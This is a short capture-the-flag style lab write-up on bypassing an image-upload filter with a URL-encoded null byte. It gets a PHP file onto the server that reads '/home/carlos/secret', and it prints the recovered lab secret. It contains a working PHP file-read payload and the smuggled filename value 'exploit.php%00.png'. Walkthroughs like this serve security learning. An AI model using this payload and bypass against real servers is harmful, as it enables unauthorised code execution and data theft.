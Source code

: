 ![image](https://github.com/udayk01/Web-Security/assets/52235763/83c51480-07e5-4c2f-917f-8a29d121abe5)

## Solution:

> Log in and upload an image as your avatar, then go back to your account page.

![image](https://github.com/udayk01/Web-Security/assets/52235763/cd77982b-bbf7-4fc2-82a9-4bf3eba334d1)

> In the proxy history, notice that your image was fetched using a GET request to ```/files/avatars/<YOUR-IMAGE>``` And one post request to ```/my-account/avatar``` also will be there . Send this two request to Burp Repeater.

> In POST request - ```/my-account/avatar``` we will remove the image content and change the file name to ```exploit.php``` and add a php script ```<?php echo file_get_contents('/home/carlos/secret'); ?>```

 ![image](https://github.com/udayk01/Web-Security/assets/52235763/b6266fa5-73b8-44f5-aee3-497ba7a8fe51)

> Error came saying "Sorry, only JPG & PNG files are allowed".

>> Change the value of the filename parameter to include a URL encoded null byte, followed by the .png extension:

```filename="exploit.php%00.png"```

![image](https://github.com/udayk01/Web-Security/assets/52235763/7b8d13f1-8549-49d1-b296-f4bd931ab786)

>> Send the request again and notice that the file was uploaded successfully.

> In GET request-

>> Change the file name to ```exploit.php``` and send.

![image](https://github.com/udayk01/Web-Security/assets/52235763/f896f7d9-1092-40d1-bd85-e03d1867034e)

> Secret Message: ```nIt6lALulR00UjFTlljj2YcDHOk1Tybj```

![image](https://github.com/udayk01/Web-Security/assets/52235763/e3a32737-3a82-4e88-85c9-fa3384d0f6bc)
